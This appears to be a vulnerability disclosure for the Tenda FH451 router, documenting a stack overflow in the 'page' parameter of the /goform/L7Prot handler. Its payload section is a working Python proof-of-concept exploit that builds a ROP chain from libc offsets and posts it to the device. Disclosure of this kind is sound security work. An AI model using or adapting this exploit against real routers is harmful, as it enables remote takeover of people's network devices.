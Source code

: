 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/L7Prot](http://0.0.0.0:80/goform/L7Prot)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `frmL7ProtForm` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/L7Prot1.png)

![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/L7Prot2.png)

The program retrieves the user input parameter `page` at line 214 but does not perform any size check. When the parameter value is excessively large, it will causes a stack overflow in the `sprintf` function at line 215, which can lead to a program crash or potential exploitation.  
Cross-referenced location: from the `frmL7ProtForm` function, routed to `L7Prot`, at line 46.

![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/L7Prot3.png)

Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 4](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/L7Prot`.

## payload
```python
import requests
from pwn import *

libc = ELF('./squashfs-root/lib/libc.so.0')
system_offset = libc.symbols["system"]
#base = 0x3fe4a990
base = 0x3fe36000
system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};
payload = b'a'*107 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str
IP = '0.0.0.0:80'
url = f"http://{IP}/goform/L7Prot"
data = {
    "page": payload
}
ret = requests.post(url,data=data)
```

# reproduce
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/L7Prot4.png)
![Image 6](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/L7Prot5.png)
![Image 7](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/L7Prot6.png)
